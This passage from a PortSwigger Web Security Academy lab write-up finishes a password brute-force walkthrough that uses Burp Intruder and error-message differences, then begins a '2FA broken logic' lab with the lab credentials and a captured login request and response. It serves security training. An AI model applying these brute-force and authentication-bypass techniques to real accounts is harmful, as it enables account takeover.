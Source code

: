 Now start the attack and you should see one error message is different send that username again to the intruder and now select the password parameter and use a simple list with your password list. Again use grep extract to extract the error message and run the attack. Every request has an error message but one request that has a correct password doesn't has any error message. Wait for 1 min for the account lock and then log in using that password and solve the lab.

##### LAB #8: 2FA broken logic

Lab URL: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic

Given Credentials
```
wiener:peter
```

Victim's username: `carlos`

This lab has a login functionality in which we can use a username and password. If any of these would be incorrect an error message is shown.

```
Incorrect username or password.
```

when the username and password are correct they redirect us to the `/login2` endpoint and set the cookie `verify=[username]` and session cookie `session=[session value here]`. The exact request and response look like the following.

```
POST /login HTTP/2
Host: 0a3d00cc03f7404ac10e3a54004a00d4.web-security-academy.net
Cookie: session=vbwYd2e4pHU9zwS7DTN1Tycm724KaM0l
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a3d00cc03f7404ac10e3a54004a00d4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

username=wiener&password=peter
```

```
HTTP/2 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
Set-Cookie: session=S1SDZaLeZsSKXJ3M7bVnq3Hfv1Yg9id2; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
